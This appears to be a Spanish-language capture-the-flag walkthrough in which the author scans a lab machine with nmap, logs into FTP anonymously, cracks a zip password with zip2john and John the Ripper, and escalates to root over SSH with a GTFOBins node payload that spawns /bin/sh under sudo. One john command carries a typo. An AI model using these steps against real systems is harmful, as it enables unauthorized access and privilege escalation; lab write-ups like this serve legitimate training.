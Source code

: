 # Herramientas
- Nmap
- John The Ripper
- GTFOBins
# Procedimiento
Escaneamos los puertos con nmap y notamos que hay dos puertos abiertos, el 21 y el 22. 
![[Pasted image 20250716175635.png]]

Por lo que procedemos a entrar al ftp con usuario `anonymous` y sin contraseña. Listamos los archivos con `ls` y vemos lo siguiente:
![[Pasted image 20250716175745.png]]

Guardamos el archivo con `get secretitopicaron.zip` y salimos de ftp. 

Cuando tratamos de hacer `unzip` nos dice que debemos ingresar una contraseña, la cual no tenemos NI IDEA cuál podría ser. Por lo que debemos obtener el hash del archivo, y vamos a ocupar John The Ripper. 
```
zip2john secretitopicaron.zip > hash
```

Una vez obtenido el hash, usamos el siguiente comando:
```
john --wordlist==/usr/share/wordlists/rockyou.txt hash
```

Y así obtenemos la contraseña:
![[Pasted image 20250716180842.png]]

Así, al descomprimir el archivo, vemos que hay un archivo llamado `password.txt`.
![[Pasted image 20250716180954.png]]

Con esto podemos entrar al SSH. Al entrar y hacer un `cat`, vemos que hay un archivo llamado `script.js`. En este punto, ocupamos también `sudo -l` y vemos lo siguiente:
![[Pasted image 20250716181521.png]]

Nos vamos a GTFOBins y buscamos `node`:
![[Pasted image 20250716181629.png]]

De acá lo que debemos copiar es:
```
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})

```

Y pegarlo en `script.js`. Finalmente, ejecutamos el siguiente comando:
```
sudo /usr/bin/node /home/mario/script.js
```

Confirmamos que hemos escalado privilegios con `whoami`:
![[Pasted image 20250716182011.png]]
